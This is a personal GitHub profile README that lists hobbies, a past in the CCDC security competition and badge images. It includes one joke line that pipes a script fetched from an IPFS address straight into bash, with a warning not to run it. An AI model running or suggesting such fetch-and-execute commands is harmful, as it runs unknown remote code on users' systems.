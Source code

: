 ##  👋🏽 What's good

💻 Playing on the internet  
🧠 Working on myself (and my dotfiles)  
🎯 Ex-[CCDC](https://www.nationalccdc.org/index.php/competition/about-ccdc/mission), still automating red team chaos  
⌨️ Clicky collector (Zelios supremacy)  

🍥 `curl -s https://ipfs.io/ipfs/bafybeifm63mimspod5szffev2nhja4eumcb3dpsmyehrxcyxu72zqvqjne/index.sh | bash`  *(👀 maybe don’t run that)*

---

[![Holopin board](https://holopin.io/api/user/board?user=mztriz)](https://holopin.io/@mztriz)

---
[![Ava's GH Activity Graph](https://github-readme-activity-graph.vercel.app/graph?username=asbarron&theme=cotton-candy&area=true&hide_border=true)](https://github.com/asbarron/github-readme-activity-graph)
